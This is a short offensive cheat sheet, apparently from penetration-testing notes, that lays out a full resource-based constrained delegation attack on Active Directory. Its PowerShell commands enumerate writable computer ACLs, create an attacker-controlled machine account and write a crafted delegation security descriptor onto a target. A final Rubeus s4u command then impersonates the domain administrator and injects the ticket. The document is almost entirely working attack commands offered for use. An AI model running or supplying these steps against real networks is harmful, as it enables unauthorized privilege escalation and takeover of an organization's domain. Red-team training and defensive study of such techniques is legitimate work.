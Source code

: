 * Need GenericWrite from user to computer

``` powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

* Check Quota
``` powershell
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
```

* Powermad 
``` powershell
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
```

``` powershell
Get-DomainComputer -Identity myComputer
```

* craft msds-allowedtoactonbehalfofotheridentity
``` powershell
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity [computername] | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

* Possible with GenericAll, WriteProperty, or WriteDACL


* verify
``` powershell
$RBCDbytes = Get-DomainComputer [computername] -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
ConvertFrom-SID [SID]   (This should be [domain]\myComputer$)
```

* attack
``` a
Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/[target fullname] /ptt
```
